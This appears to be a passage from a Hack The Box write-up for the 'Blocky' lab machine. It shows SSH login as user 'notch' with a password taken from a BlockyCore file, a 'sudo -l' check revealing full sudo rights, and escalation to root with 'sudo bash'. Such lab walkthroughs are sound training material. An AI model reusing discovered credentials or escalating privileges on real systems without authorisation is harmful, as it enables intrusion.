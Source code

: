 # Foothold

- We know a user from wpscan : notch
- We can use the password from BlockyCore to ty and ssh to the box.
```bash
norman@kali ~/Hack-The-Box/machines/blocky ‹main*› 
╰─$ ssh notch@10.10.10.37 
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Apr 13 09:00:55 2021 from 10.10.14.5
notch@Blocky:~$ 

```
- We can cat out the user.txt


# Priv Esc

- We can run `sudo -l` before running linpeas.
```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

```
- Just run `sudo bash` or `sudo -i`
```bash
notch@Blocky:~$ sudo bash
root@Blocky:~# ls
minecraft  user.txt
root@Blocky:~# cd /root
root@Blocky:/root# cat root.txt | wc -c
32
root@Blocky:/root# 

```
- Cat out root.txt